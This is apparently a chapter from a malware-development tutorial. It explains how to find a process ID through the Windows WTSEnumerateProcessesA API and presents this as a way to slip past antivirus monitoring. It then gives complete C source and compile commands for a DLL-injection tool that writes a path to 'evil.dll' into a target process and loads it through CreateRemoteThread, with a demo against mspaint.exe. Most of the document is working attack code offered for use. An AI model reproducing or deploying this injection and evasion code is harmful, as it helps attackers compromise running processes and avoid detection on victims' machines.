


\newpage
\subsection{45. malware development trick. Find PID via WTSEnumerateProcesses. Simple C++ example.}

﷽

{width="80%"}      

Today, I just want to focus my research on another malware development trick: enum processes and find PID via `WTSEnumerateProcesses`. It is a common technique that can be used by malware for AV evasion also.    

### WTSEnumerateProcessesA win api

The `WTSEnumerateProcessesA` function is a Windows API function that retrieves information about the active processes on a specified terminal server:      

```cpp
BOOL WTSEnumerateProcessesA(
  WTS_CURRENT_SERVER_HANDLE hServer,
  DWORD                     Reserved,
  DWORD                     Version,
  PWTS_PROCESS_INFOA        *ppProcessInfo,
  DWORD                     *pdwCount
);
```

`WTSEnumerateProcessesA` is primarily used for enumerating the processes running on a terminal server and can be useful for diagnostics and troubleshooting.       

### practical example

The WTS API functions are part of the `wtsapi32.dll`, so we need to link against that DLL. In the code snippet, 

```cpp
#pragma comment(lib, "wtsapi32.lib")
```

is used to link against the library.     

Then just create function to enum processes:     

```cpp
int findMyProc(const char * procname) {
  int pid = 0;
  WTS_PROCESS_INFOA * pi;

  DWORD level = 1; // we want WTSEnumerateProcesses to return WTS_PROCESS_INFO_EX
  DWORD count = 0;

  if (!WTSEnumerateProcessesA(WTS_CURRENT_SERVER_HANDLE, 0, level, &pi, &count))
    return 0;

  for (int i = 0 ; i < count ; i++ ) {
    if (lstrcmpiA(procname, pi[i].pProcessName) == 0) {
      pid = pi[i].ProcessId;
      break;
    }
  }

  WTSFreeMemory(pi);
  return pid;
}
```

As you can see, the logic is pretty simple, just compare process name and get PID.      

Full source code is look like this (`hack.c`):     

```cpp
/*
 * process find via WTSEnumerateProcessesA logic
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2023/07/07/malware-tricks-34.html
*/
#include <windows.h>
#include <stdio.h>
#include <wtsapi32.h>
#pragma comment(lib, "wtsapi32.lib")

int findMyProc(const char * procname) {
  int pid = 0;
  WTS_PROCESS_INFOA * pi;

  DWORD level = 1; // we want WTSEnumerateProcesses to return WTS_PROCESS_INFO_EX
  DWORD count = 0;

  if (!WTSEnumerateProcessesA(WTS_CURRENT_SERVER_HANDLE, 0, level, &pi, &count))
    return 0;

  for (int i = 0 ; i < count ; i++ ) {
    if (lstrcmpiA(procname, pi[i].pProcessName) == 0) {
      pid = pi[i].ProcessId;
      break;
    }
  }

  WTSFreeMemory(pi);
  return pid;
}

int main(int argc, char* argv[]) {
  int pid = findMyProc(argv[1]);
  if (pid > 0) {
  printf("pid = %d\n", pid);
  }
  return 0;
}
```


Keep in mind that this function may not retrieve the process identifier for some types of processes, such as system processes or processes that are protected by certain types of security software. In addition, certain types of security software may block calls to this function entirely. The same applies if you're running in an environment with restricted permissions.       

Also, `WTSEnumerateProcesses` requires the `SeTcbPrivilege` to be enabled, but this is normally enabled for administrators, but I didn't check it.     

### demo

Ok, let's go to look this trick in action.     

Compile it (`hack.c`):      

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings 
-fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive -lwtsapi32
```

{width="80%"}      

As you can see, you need to link against `wtsapi32.lib` when building this program. I am using a GCC-based compiler (like `MinGW`), so I can do this by adding `-lwtsapi32` to my command.     

Then, just run it at the victim's machine (`Windows 10 22H2 x64` in my case):      

```powershell
.\hack.exe <process>
```

{width="80%"}      

{width="80%"}      

{width="80%"}      

As you can see, it's worked perfectly, as expected :) =^..^=    

As I wrote earlier, in theory, the user must have the `Query Information` permission. Also, the calling process must have the `SE_TCB_NAME` privilege. If the calling process is running in a user session, the `WTSEnumerateProcesses` function only retrieves the process information for the session of the calling process.       

In my opinion, if your malware or service run under the Local System you have enough permissions.     

Also, maybe this trick can be used to bypass some cyber security solutions, since many systems only detect functions known to many like `CreateToolhelp32Snapshot`, `Process32First`, `Process32Next`. For the same reason, this can be difficult for many malware analysts.     

### practical example 2. find and inject

Let's go to another example with malicious logic. Find process ID by name and inject DLL to it.      

Source code is similar to my [post](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html) or [this one](https://cocomelonc.github.io/malware/2023/05/26/malware-tricks-30.html). The only difference is the logic of the `findMyProc` function (`hack2.c`):       

```cpp
/*
 * hack2.cpp - find process ID
 * by WTSEnumerateProcessesA and
 * DLL inject. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/07/07/malware-tricks-34.html
*/
#include <windows.h>
#include <stdio.h>
#include <wtsapi32.h>
#pragma comment(lib, "wtsapi32.lib")

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int findMyProc(const char * procname) {
  int pid = 0;
  WTS_PROCESS_INFOA * pi;

  DWORD level = 1; // we want WTSEnumerateProcesses to return WTS_PROCESS_INFO_EX
  DWORD count = 0;

  if (!WTSEnumerateProcessesA(WTS_CURRENT_SERVER_HANDLE, 0, level, &pi, &count))
    return 0;

  for (int i = 0 ; i < count ; i++ ) {
    if (lstrcmpiA(procname, pi[i].pProcessName) == 0) {
      pid = pi[i].ProcessId;
      break;
    }
  }

  WTSFreeMemory(pi);
  return pid;
}

int main(int argc, char* argv[]) {
  int pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer
  pid = findMyProc(argv[1]);
  printf("%s%d\n", pid > 0 ? "process found at pid = " : 
  "process not found. pid = ", pid);

  HMODULE hKernel32 = GetModuleHandle("kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // open process
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(pid));
  if (ph == NULL) {
    printf("OpenProcess failed! exiting...\n");
    return -2;
  }

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, 
  NULL);
  CloseHandle(ph);

  return 0;
}
```

### "malware" demo

Ok, let's go to demonstration our injection.     

Compile it:      

```bash
x86_64-w64-mingw32-g++ -O2 hack2.c -o hack2.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -lwtsapi32
```

{width="80%"}      

And run for find and inject to `mspaint.exe`:       

```powershell
.\hack2.exe mspaint.exe
```

{width="80%"}      

As you can see, our messagebox is injected to `mspaint.exe` with `PID = 3048` as expected. Perfect! =^..^=     

This trick is used by Iranian [CopyKittens](https://attack.mitre.org/groups/G0052/) cyber espionage group. I hope this post spreads awareness to the blue teamers of this interesting malware dev technique, and adds a weapon to the red teamers arsenal.      

[WTSEnumerateProcessesA](https://learn.microsoft.com/en-us/windows/win32/api/wtsapi32/nf-wtsapi32-wtsenumerateprocessesa)       
[Find PID by name and inject to it. "Classic" implementation.](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html)       
[Classic DLL injection into the process. Simple C++ malware](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html)        
[Taking a Snapchot and Viewing Processes](https://docs.microsoft.com/en-us/windows/win32/toolhelp/taking-a-snapshot-and-viewing-processes)       
[CopyKittens](https://attack.mitre.org/groups/G0052/)     
[Malpedia: CopyKittens](https://malpedia.caad.fkie.fraunhofer.de/actor/copykittens)      
[source code in github](https://github.com/cocomelonc/meow/tree/master/2023-07-07-malware-trick-34)           
